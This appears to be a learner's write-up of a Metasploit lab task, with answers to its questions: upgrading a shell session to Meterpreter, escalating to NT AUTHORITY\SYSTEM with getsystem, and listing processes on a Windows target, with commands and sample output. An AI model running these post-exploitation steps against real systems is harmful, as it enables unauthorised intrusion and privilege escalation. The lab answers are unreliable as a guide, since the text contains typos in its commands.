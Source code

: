 With that done, run the exploit!

Confirm that the exploit has run correctly. 


# TASK 3

Q. What is the name of the post module we will use? 
A. post/multi/manage/shell_to_meterpreter

quick google search fopuns this
https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646

```bash
search shell_to_meterpreter
info 0
```
options
HANDLER
LPORT
SESSION



Q. Show options, what option are we required to change?
A. SESSIONS

Set the required option, you may need to list all of the sessions to find your target here. 

```bash
session -l
```

Run!
```
use post/multi/manage/shell_to_meterpreter
set SESSION 1
exploit
```

Select that session for use
```bash
sessions 2
```

Verify that we have escalated to NT AUTHORITY\SYSTEM
```bash
getsystem
shell
whoami
exit
```

List all of the processes running via the 'ps' command
ps
```
Process List
============

 PID   PPID  Name             Arch  Session  User                       Path
 ---   ----  ----             ----  -------  ----                       ----
 0     0     [System Process
             ]
 4     0     System           x64   0
 396   700   svchost.exe      x64   0        NT AUTHORITY\SYSTEM
 416   4     smss.exe         x64   0        NT AUTHORITY\SYSTEM        \SystemRoot\System32\smss
                                                                        .exe
 536   700   svchost.exe      x64   0        NT AUTHORITY\SYSTEM
 552   544   csrss.exe        x64   0        NT AUTHORITY\SYSTEM        C:\Windows\system32\csrss
                                                                        .exe
 600   544   wininit.exe      x64   0        NT AUTHORITY\SYSTEM        C:\Windows\system32\winin
```